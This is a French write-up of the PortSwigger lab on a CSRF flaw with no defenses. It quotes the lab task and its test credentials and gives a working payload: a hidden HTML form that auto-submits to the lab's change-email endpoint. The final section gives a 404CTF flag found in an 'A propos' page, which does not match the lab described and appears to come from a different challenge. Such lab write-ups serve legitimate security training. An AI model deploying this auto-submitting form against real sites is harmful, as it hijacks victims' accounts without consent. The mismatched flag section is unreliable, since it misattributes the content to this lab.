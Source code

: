 # [CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)
> Difficulté : Apprentice


## Enoncé :

*This lab's email change functionality is vulnerable to CSRF.
To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.
You can log in to your own account using the following credentials: wiener:peter*

<details>
<summary>Hint</summary>
You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.
</details>

## Solution

Nous cherchons à créer un payload réalisant, depuis la session victime, un changement de mail de notre choix.
En utilisant le cours, nous pouvons assez aisément construire le payload suivant, que nous allons mettre dans le Body de notre espace dans le lab avant de "Deliver exploit to victim".
```
<form method="POST" action="https://0a8f001b044fb7138507d7560016007e.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="t@t.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

## Flag

Nous trouvons le flag dans la section **A propos > Détails sur Louise** :

<details>
<summary>🚩</summary>

```
404CTF{4_mon_ch3r_4mi_v1ctor}
```
</details>
